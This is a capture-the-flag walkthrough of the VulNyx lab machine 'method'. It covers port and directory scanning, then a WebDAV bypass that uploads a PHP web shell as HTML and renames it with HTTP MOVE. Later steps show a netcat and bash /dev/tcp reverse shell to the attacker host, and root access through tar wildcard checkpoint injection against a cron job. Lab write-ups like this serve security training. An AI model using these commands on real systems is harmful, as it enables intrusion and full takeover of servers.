

# method

## Executive Summary

| Machine | OS | Author | Category | Platform |
| :--- | :--- | :--- | :--- | :--- |
| method | Linux | d4t4s3c | Easy | VulNyx |

**Summary:** The method engagement targets a Linux machine exposing OpenSSH 8.4p1 on port 22 and lighttpd 1.4.59 on port 80. Initial web reconnaissance reveals the default Debian lighttpd placeholder page, where source code inspection discloses an HTML comment holding a 32-character hexadecimal string that resolves to the MD5 hash of `lighttpd`. Directory enumeration identifies an exposed `/webdav` directory configured with WebDAV extensions. Probing permitted HTTP methods demonstrates that while direct uploads of PHP scripts via HTTP PUT are rejected with 403 Forbidden, HTML file uploads succeed, and the HTTP MOVE method is enabled. Uploading a PHP command shell masquerading as an HTML document and moving it to a `.php` extension bypasses file upload restrictions, enabling arbitrary command execution under the `www-data` security context and establishing an interactive reverse shell. Post-exploitation enumeration via pspy captures a scheduled root cron job executing every minute, which transitions to the webdav directory and archives all contents using the wildcard asterisk syntax with `tar`. Creating filenames configured as GNU tar command-line options injects checkpoint parameters that execute a reverse shell script upon archive creation, granting immediate root privileges and complete system control.

---

## Reconnaissance

Network discovery begins across the local host-only subnet to identify the live IP address of the target and map its exposed network services.

1. An ARP ping sweep across the local network locates the target machine:

```zsh
❯ sudo nmap -sn -PR 192.168.56.0/24
Starting Nmap 7.991 ( https://nmap.org ) at 2026-09-19 22:02 +0700
Nmap scan report for 192.168.56.100
Host is up (0.00024s latency).
MAC Address: 08:00:27:92:5A:84 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.202
Host is up (0.00050s latency).
MAC Address: 08:00:27:09:04:C2 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.1
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 7.25 seconds
```

2. The target host is identified at `192.168.56.202` and assigned to an environment variable:

```zsh
❯ ip=192.168.56.202
```

3. A fast TCP SYN scan over the entire 65,535 port range identifies open ports on the target:

```zsh
❯ nmap -p- $ip                                     
Starting Nmap 7.991 ( https://nmap.org ) at 2026-09-19 22:03 +0700
Nmap scan report for 192.168.56.202
Host is up (0.00017s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 2.24 seconds
```

4. Service version detection and default NSE scripts interrogate open ports 22 and 80:

```zsh
❯ nmap -p 22,80 -sCV -Pn --min-rate 5000 $ip         
Starting Nmap 7.991 ( https://nmap.org ) at 2026-09-19 22:03 +0700
Nmap scan report for 192.168.56.202
Host is up (0.0012s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u7 (protocol 2.0)
| ssh-hostkey: 
|   3072 f0:e6:24:fb:9e:b0:7a:1a:bd:f7:b1:85:23:7f:b1:6f (RSA)
|   256 99:c8:74:31:45:10:58:b0:ce:cc:63:b4:7a:82:57:3d (ECDSA)
|_  256 60:da:3e:31:38:fa:b5:49:ab:48:c3:43:2c:9f:d1:32 (ED25519)
80/tcp open  http    lighttpd 1.4.59
|_http-server-header: lighttpd/1.4.59
|_http-title: Welcome page
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.26 seconds
```

5. Inspecting the HTTP service on port 80 returns the default Debian lighttpd placeholder page, revealing an embedded comment at line 119 containing a hexadecimal hash:

```zsh
❯ curl -i http://$ip           
HTTP/1.1 200 OK
Content-Type: text/html
Accept-Ranges: bytes
ETag: "1639147349"
Last-Modified: Fri, 10 Jul 2026 11:26:58 GMT
Content-Length: 3388
Date: Sat, 19 Sep 2026 15:04:04 GMT
Server: lighttpd/1.4.59

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
<title>Welcome page</title>
<style type="text/css" media="screen">
body { background: #e7e7e7; font-family: Verdana, sans-serif; font-size: 11pt; }
#page { background: #ffffff; margin: 50px; border: 2px solid #c0c0c0; padding: 10px; }
#header { background: #4b6983; border: 2px solid #7590ae; text-align: center; padding: 10px; color: #ffffff; }
#header h1 { color: #ffffff; }
#body { padding: 10px; }
span.tt { font-family: monospace; }
span.bold { font-weight: bold; }
a:link { text-decoration: none; font-weight: bold; color: #C00; background: #ffc; }
a:visited { text-decoration: none; font-weight: bold; color: #999; background: #ffc; }
a:active { text-decoration: none; font-weight: bold; color: #F00; background: #FC0; }
a:hover { text-decoration: none; color: #C00; background: #FC0; }
</style>
</head>
<body>
<div id="page">
 <div id="header">
 <h1> Placeholder page </h1>
  The owner of this web site has not put up any web pages yet. Please come back later.
 </div>
 <div id="body">
  <h2>You should replace this page with your own web pages as soon as possible.</h2>
  Unless you changed its configuration, your new server is configured as follows:
  <ul>
   <li>Configuration files can be found in <span class="tt">/etc/lighttpd</span>. Please read  <span class="tt">/etc/lighttpd/conf-available/README</span> file.</li>
   <li>The DocumentRoot, which is the directory under which all your HTML files should exist, is set to <span class="tt">/var/www/html</span>.</li>
   <li>CGI scripts are looked for in <span class="tt">/usr/lib/cgi-bin</span>, which is where Debian packages will place their scripts. You can enable cgi module by using command <span class="bold tt">&quot;lighty-enable-mod cgi&quot;</span>.</li>
   <li>Log files are placed in <span class="tt">/var/log/lighttpd</span>, and will be rotated weekly. The frequency of rotation can be easily changed by editing <span class="tt">/etc/logrotate.d/lighttpd</span>.</li>
   <li>The default directory index is <span class="tt">index.html</span>, meaning that requests for a directory <span class="tt">/foo/bar/</span> will give the contents of the file /var/www/html/foo/bar/index.html if it exists (assuming that <span class="tt">/var/www/html</span> is your DocumentRoot).</li>
   <li>You can enable user directories by using command <span class="bold tt">&quot;lighty-enable-mod userdir&quot;</span></li>
  </ul>
  <h2>About this page</h2>
  <p>
   This is a placeholder page installed by the Debian release of the <a href="http://packages.debian.org/lighttpd">Lighttpd server package.</a>
  </p>
  <p>
   This computer has installed the Debian GNU/Linux operating system, but it has nothing to do with the Debian Project. Please do not contact the Debian Project about it.
  </p>
  <p>
   If you find a bug in this Lighttpd package, or in Lighttpd itself, please file a bug report on it. Instructions on doing this, and the list of known bugs of this package, can be found in the 
   <a href="http://bugs.debian.org/cgi-bin/pkgreport.cgi?pkg=lighttpd">Debian Bug Tracking System.</a>
  </p>
 </div>
</div>
<!-- s:853e9a42efca88ae0dd1a83aeb215047 -->
</body>
</html>
```

6. Analyzing the discovered MD5 hash `853e9a42efca88ae0dd1a83aeb215047` reveals that it decrypts to the plain text value `lighttpd`:

	 
7. Content discovery using gobuster against the web root identifies an active directory named `/webdav`:

```zsh
❯ gobuster dir -u http://$ip -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x php,txt,html -t 50 
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.202
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
webdav               (Status: 301) [Size: 0] [--> /webdav/]
Progress: 882228 / 882228 (100.00%)
===============================================================
Finished
===============================================================
```

---

## Initial Access

### WebDAV Arbitrary File Upload via HTTP MOVE Method

8. Querying the `/webdav/` endpoint with an HTTP OPTIONS request enumerates supported WebDAV methods, confirming that file modification and management operations such as PUT and MOVE are enabled:

```zsh
❯ curl -X OPTIONS -i http://$ip/webdav/
HTTP/1.1 200 OK
DAV: 1,2,3
MS-Author-Via: DAV
Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK, OPTIONS, GET, HEAD, POST
Content-Length: 0
Date: Sat, 19 Sep 2026 15:14:17 GMT
Server: lighttpd/1.4.59
```

9. A basic PHP web shell script is prepared locally:

```zsh
❯ echo '<?php system($_GET["cmd"]); ?>' > shell.txt
```

10. Testing file upload capabilities across various extensions demonstrates that executable server-side scripts return 403 Forbidden, whereas `.html` uploads are accepted with status 201 Created:

```zsh
❯ for ext in html htm pl cgi phtml pht php5 php7 shtml asp
do
  echo "== $ext =="
  curl -s -o /dev/null -w "%{http_code}\n" -T shell.txt "http://$ip/webdav/shell.$ext"
done
== html ==
201
== htm ==
403
== pl ==
403
== cgi ==
403
== phtml ==
403
== pht ==
403
== php5 ==
403
== php7 ==
403
== shtml ==
403
== asp ==
403
```

11. The PHP shell payload is uploaded as `shell.html`:

```zsh
❯ curl -T shell.txt http://$ip/webdav/shell.html
```

12. Leveraging the HTTP MOVE method with the `Destination` header allows the uploaded `shell.html` file to be renamed to `shell.php`, bypassing the extension filter and achieving arbitrary code execution:

```zsh
❯ curl -X MOVE -H "Destination: http://$ip/webdav/shell.php" -i http://$ip/webdav/shell.html
HTTP/1.1 201 Created
Content-Length: 0
Date: Sat, 19 Sep 2026 15:21:17 GMT
Server: lighttpd/1.4.59

❯ curl "http://$ip/webdav/shell.php?cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

13. A reverse shell payload using busybox netcat is dispatched through the web shell:

```zsh
❯ curl "http://$ip/webdav/shell.php?cmd=busybox%20nc%20192.168.56.1%205555%20-e%20/bin/bash"
```

14. The incoming connection is caught on port 5555, securing interactive shell access as the `www-data` user:

```zsh
❯ penelope -p 5555
...
www-data@method:~/html/webdav$ 
```

---

## Privilege Escalation

### Cron Job Tar Wildcard Command Execution

15. To monitor running processes and identify background automation tasks, a temporary HTTP server is hosted on the local system:

```zsh
❯ cd /opt 

❯ python3 -m http.server 9999
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...
192.168.56.202 - - [19/Sep/2026 22:28:20] "GET /pspy/pspy64 HTTP/1.1" 200 -
```

16. The pspy64 binary is transferred to `/var/www/html/webdav` on the target and marked executable:

```zsh
www-data@method:~/html/webdav$ wget http://192.168.56.1:9999/pspy/pspy64
--2026-09-19 17:28:19--  http://192.168.56.1:9999/pspy/pspy64
Connecting to 192.168.56.1:9999... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                     100%[======================================>]   2.96M  --.-KB/s    in 0.04s   

2026-09-19 17:28:19 (79.9 MB/s) - ‘pspy64’ saved [3104768/3104768]

www-data@method:~/html/webdav$ chmod +x pspy64 
```

17. Executing pspy64 reveals a scheduled cron job executed by root (UID 0) that changes directory to `/var/www/html/webdav/` and compresses all files using wildcard expansion `*`:

```zsh
www-data@method:~/html/webdav$ ./pspy64 
...
2026/09/19 17:29:01 CMD: UID=0     PID=880    | /usr/sbin/CRON -f 
2026/09/19 17:29:01 CMD: UID=0     PID=882    | /usr/sbin/CRON -f 
2026/09/19 17:29:01 CMD: UID=0     PID=883    | /bin/sh -c cd /var/www/html/webdav/ && tar -zcf /var/backups/webdav.tgz * 
2026/09/19 17:29:01 CMD: UID=0     PID=884    | tar -zcf /var/backups/webdav.tgz pspy64 shell.php 
2026/09/19 17:29:01 CMD: UID=0     PID=885    | /bin/sh -c gzip 
```

18. A second netcat listener is prepared to receive the root reverse shell connection:

```zsh
❯ penelope -p 6666 
```

19. In `/var/www/html/webdav`, a reverse shell script `shell.sh` is created alongside two specially crafted files that GNU tar interprets as command-line arguments during wildcard expansion:

```zsh
www-data@method:~/html/webdav$ echo '/bin/bash -c "bash -i >& /dev/tcp/192.168.56.1/6666 0>&1"' > shell.sh
www-data@method:~/html/webdav$ touch -- '--checkpoint=1'
www-data@method:~/html/webdav$ touch -- '--checkpoint-action=exec=sh shell.sh'
```

20. When the cron job executes, `tar` processes `--checkpoint=1` and `--checkpoint-action=exec=sh shell.sh`, running `shell.sh` under root privileges and returning an interactive root shell:

```zsh
...
[+] [New Reverse Shell] => method 192.168.56.202 Linux-x86_64 👤 root(0) 😍️ Session ID <1>
...
root@method:/var/www/html/webdav# id;whoami;hostname
uid=0(root) gid=0(root) grupos=0(root)
root
method
root@method:/var/www/html/webdav# cat /home/www-data/user.txt /root/root.txt 
549...
370...
```

---

## Attack Chain Summary

1. **Reconnaissance**: Network discovery identified the target machine at `192.168.56.202`, and port scanning mapped OpenSSH on port 22 and a lighttpd web server on port 80.
2. **Vulnerability Discovery**: Source inspection on the default web page exposed an MD5 hash corresponding to `lighttpd`, while directory brute forcing uncovered an accessible `/webdav` directory supporting WebDAV methods including PUT and MOVE.
3. **Exploitation**: Uploading a PHP web shell disguised with an `.html` extension bypassed server-side file extension restrictions, and invoking the HTTP MOVE method renamed the file to `shell.php`, achieving remote code execution and providing an initial shell as `www-data`.
4. **Internal Enumeration**: Process monitoring using pspy identified a root-owned cron job archiving `/var/www/html/webdav/` contents using `tar -zcf /var/backups/webdav.tgz *`.
5. **Privilege Escalation**: Exploiting the wildcard parameter injection vulnerability in GNU tar via `--checkpoint=1` and `--checkpoint-action=exec=sh shell.sh` triggered command execution upon archive creation, granting full root privileges and access to both system flags.
